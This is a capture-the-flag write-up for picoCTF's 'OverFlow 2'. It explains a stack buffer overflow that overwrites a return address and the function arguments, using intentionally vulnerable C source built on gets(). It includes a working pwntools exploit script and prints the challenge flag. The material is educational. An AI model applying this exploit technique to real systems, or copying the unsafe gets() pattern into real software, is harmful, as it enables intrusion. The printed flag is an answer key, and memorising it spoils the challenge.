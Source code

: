 # OverFlow 2 - Points: 250

## Description

Now try overwriting arguments. Can you get the flag from this [program](./vuln)? You can find it in /problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e on the shell server. [Source](./vuln.c).

## Solution

Similar to the previous challenge, we have to overwrite the return address to call the ```flag()``` function.
However, this time, we need to pass the correct arguments, 0xDEADBEEF and 0xC0DED00D, in order to have the flag printed.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

As with OverFlow 1, we need to overflow the memory allocated for local variables and overwrite the EBP and return address.
We can use the same technique of filling the char array buffer, then printing a recognisable pattern, such as the alphabet, and checking the value of the EBP register in GDB.

This time, we need to write past the return address to set the arguments for the ```flag()``` function.
For this challenge, it is very useful to know where arguments are on the stack.

```
Local variables
EBP
Return Address
Arguments
```

We want to overwrite the return address of ```vuln()``` with the address of the ```flag()``` function.
When this happens, the current stack will be destroyed and a new stack will be created like so:

During execution of ```vuln()```:

```
vuln - Local variables
vuln - old EBP
vuln - Return Address
previous stack
```

Finished execution of ```vuln()```:

```
vuln - Arguments
previous stack
```

Start execution of ```flag()```:

```
flag - Local variables
flag - old EBP
previous stack
```

However, the flag function expects that the stack is structured as normal:

```
flag - Local variables
flag - old EBP
flag - Return Address
flag - Arguments
previous stack
```

Using a buffer overflow, we can overwrite memory in the previous stack just as we would overwrite the return address.

We can see that the top of the previous stack has to include the following in order:

```
flag - Return Address
flag - Arguments
```

The return address doesn't matter in this case as we are not concerned with where the program attempts to return to once the flag has been printed.
We can overwrite this value with an arbitrary address, such as 0x41414141.

Once we've filled the return address, we overwrite the next 8 bytes with the correct arguments.
When we're finished, stack will looks something like this:

```
flag - Local variables
flag - old EBP
0x41414141
0xDEADBEEF
0xC0DED00D
remaining previous stack
```

## Exploit script

This script is pretty much the same as the one used in OverFlow 1.
The difference is that, after printing the buffer and the address of the ```flag()``` function, we add an arbitrary 4 bytes, followed by the two arguments.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)

print("sending payload")
vuln.sendlineafter('\n', ('A' * 188).encode() + p32(0x080485e6) + ('A' * 4).encode() + p32(0xDEADBEEF) + p32(0xC0DED00D))
vuln.recvline()

print("done")
vuln.interactive()
```

## Flag

```picoCTF{arg5_and_r3turn55897b905}```

